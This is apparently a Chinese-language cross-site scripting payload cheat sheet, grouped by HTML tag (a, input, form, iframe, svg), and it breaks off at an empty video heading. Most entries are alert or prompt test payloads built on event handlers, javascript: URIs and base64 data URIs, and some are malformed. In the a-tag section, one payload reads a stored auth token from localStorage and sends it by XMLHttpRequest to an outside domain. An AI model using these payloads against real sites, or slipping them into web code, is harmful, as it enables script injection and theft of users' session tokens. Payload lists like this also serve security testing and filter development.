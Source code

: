 ### a标签

举例

    <a href="https://www.baidu.com">baidu</a>
    <a href="javascript:alert('xss')">aa</a>
    <a href=javascript:eval(alert('xss'))>aa</a>
    <a href="javascript:aaa"onmouseover="alert(/xss/)">aa</a>
    <a href=""onclick=eval(alert('xss'))>aa</a>
    <a href=kycg.asp?ttt=1000onmouseover=prompt('xss')y=2016>aa</a>
    <a href=\"javascript:var xhr=new XMLHttpRequest(); xhr.open('GET', 'https://acnjnlnopp.dgrh3.cn/'+localStorage.getItem('SCW__TOKEN__'), true); xhr.send();\">aaa</a>
    
### input标签

举例

    <input value=""onclick=alert('xss')type="text">
    <input name="name"value=""onmouseover=prompt('xss')bad="">
    <input name="name"value=""><script>alert('xss')</script>
    
### form标签

举例

    <form action=javascript:alert('xss')method="get">
    <form action=javascript:alert('xss')>
    <form method=postaction=aa.asp?onmouseover=prompt('xss')>
    <form method=postaction=aa.asp?onmouseover=alert('xss')>
    <form action=1onmouseover=alert('xss)>
    <form method=postaction="data:text/html;base64,<script>alert('xss')</script>">
    <form method=postaction="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
    
### iframe标签

举例

    <iframe src=javascript:alert('xss');height=5width=1000/><iframe>
    <iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
    <iframe src="data:text/html;base64,<script>alert('xss')</script>">
    <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
    <iframe src="aaa"onmouseover=alert('xss')/><iframe>
    <iframe src="javascript&colon;prompt&lpar;xss&rpar;"></iframe>
    <iframe/onreadystatechange=alert(630)></iframe>
    
### svg标签

举例

    <svg onload=alert(1)>   
    
### video标签

举例
